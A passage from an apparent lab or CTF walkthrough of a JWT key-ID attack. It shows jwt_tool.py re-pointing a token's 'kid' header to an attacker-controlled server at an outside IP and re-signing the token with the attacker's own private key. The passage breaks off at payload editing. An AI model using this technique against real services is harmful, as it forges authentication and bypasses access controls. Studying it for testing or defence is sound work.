 ```bash
ZNn2HHk7hlEDPUC6Eb+Y8zjq2YMCdvhK4UJzwpTgiWfSybF3oJkmQA565tfZdDMG
VWIqRhxZBBiS0BH+rT3UyO2R7cbx6CfKDaHQVZi+cfijlredt39jYNaqr+yfrz7m
Ae2Znxa/3UewDGQ78F3FaoHqQjaO5pL+EfvcK8u6UYKtL3czirDdfixnyn22wxa5
lwTuxMkNo2HXk0UXJeVJkJTQWr8W2cQoR5etyRXRVY0ymyM3jsJULqj3hE09ZCL8
RlE3I1C1QNY83qx/of4hPFioDxXL+Ez9TrlJhKhBK00ElJHf6vjLrIbed0Ee3bze
TjOjIbL3H0eaiqIdI8Gyo17anRJMvGi59zt96tcJa8Cjap+FJ2BjIc6bLmOUpemj
Vm387vzdBtCLCrKrfU6jU7AX8sNLhy10pUOWyiLzIK6+wD9OGJJLNR4Z7DR5P79s
kHLua9dxR/K0xLFf2iOnAySHljbK/zuxyp2NBMfDA4XqbxIGknlUMJi1LSe4FbK4
+z6GYPJdXmrgc/YYgNXLX3vG7GF8yUFiF7q5K4ghVj1UhmR0lwzb0U34IFbfHc7h
yyjW52t2PIE8iXCaRh9vUn8CAwEAAQ==
-----END PUBLIC KEY-----
```

Now we put the public key on a server that we control and make it available to the world. Then we use `jwt_tool.py` to tamper with the original token and sign it with our newly created private key:

```bash
$ /opt/jwt_tool/jwt_tool.py eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsImtpZCI6Imh0dHA6XC9cL2xvY2FsaG9zdFwvand0UlMyNTYua2V5LnB1YiJ9.eyJ1c2VybmFtZSI6InRlc3QifQ.xl3jDlNK0trxkNjEQC5cNxWzZzPGUgGaLIiKHWv6hf2WvEzuuZbTaLSiZNDavs7V7SijOYH1IFQ8vjS_qd2-XQtf4Lc_WR7slsNDlpib4zK7MKXFbzoOm7XQF8bTafl_CBGYB2GU587ZdTsv5FoUPWfe6_XXiHTpQkVZKs-TGs8HQUtF0lDQ0f72XBMtioMoj7BM5cxfoQNYf72UOqucrYmpN_IOjb0ViOBTbU_mpDbrzAYStjqIpmze4mjogQfk5POY1cU3WWZYHv5fmRgBn_dR58IMsedrIdnAsw98J8XSxALFr1DwLC7EVf6rriP_r-3dJJFtEhhTSPQiVZUtrfAZexR7Gw0eg6cdOCICexmAdYw-9TGczzC26Y9R51G-NOHpTPvhw_qU2uD86PQZznN3GpemxvQyMW7c85zs9zGJlJ7TSRs72EJEdeCo08UQ12uuIzIJ2S-WMmoBPcEaibKS3ct-gOGP73ShRfIHF95MHjOcj5B4KHDRApOtL1bLE4p6Hri4m_W6J3U8GaxNctp-QTiSoxYA1dLYWWG9B9vvNhCH_ZKzTshuiC-Qhg3y-0IPPgVcxMUkE7LpbSOdSqIZP0_FJ--Nd5Ebat1I7iJKSGnTVeUILOUBYSuyaG1w5wp1ghqIFk5xwS6sMbIm_tCEJlMgWmWgFyerjh3QaI8 -T -S rs256 -pr jwtRS256.key

Original JWT:

====================================================================
This option allows you to tamper with the header, contents and
signature of the JWT.
====================================================================

Token header values:
[1] typ = "JWT"
[2] alg = "RS256"
[3] kid = "http://localhost/jwtRS256.key.pub"
[4] *ADD A VALUE*
[5] *DELETE A VALUE*
[0] Continue to next step

Please select a field number:
(or 0 to Continue)
> 3

Current value of kid is: http://localhost/jwtRS256.key.pub
Please enter new value and hit ENTER
> http://167.99.220.97/test.pub
[1] typ = "JWT"
[2] alg = "RS256"
[3] kid = "http://167.99.220.97/test.pub"
[4] *ADD A VALUE*
[5] *DELETE A VALUE*
[0] Continue to next step

Please select a field number:
(or 0 to Continue)
> 0

Token payload values:
[1] username = "test"
[2] *ADD A VALUE*
[3] *DELETE A VALUE*
```